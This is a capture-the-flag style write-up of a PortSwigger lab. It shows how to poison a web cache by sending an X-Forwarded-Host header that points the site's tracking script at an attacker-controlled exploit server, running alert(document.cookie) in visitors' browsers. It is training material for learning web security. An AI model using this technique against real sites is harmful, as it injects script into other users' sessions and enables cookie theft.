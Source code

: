 
# Web cache poisoning with an unkeyed header

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

Hint: This lab supports the X-Forwarded-Host header.

---------------------------------------------

References: 

- https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/1.png)

---------------------------------------------

There is a reference to the file /resources/js/tracking.js in the home page:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/2.png)

It contains this code:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/3.png)


I will create a similar one in the exploit server with the payload we want:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/4.png)


Then I will send the exploit server url in the X-Forwarded-Host header to the home page:

```
GET / HTTP/2
...
X-Forwarded-Host: exploit-0a26003703122ceb80d4074501290007.exploit-server.net
```



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/5.png)


When accessing the home page we get the alert pop up:



![img](images/Web%20cache%20poisoning%20with%20an%20unkeyed%20header/6.png)
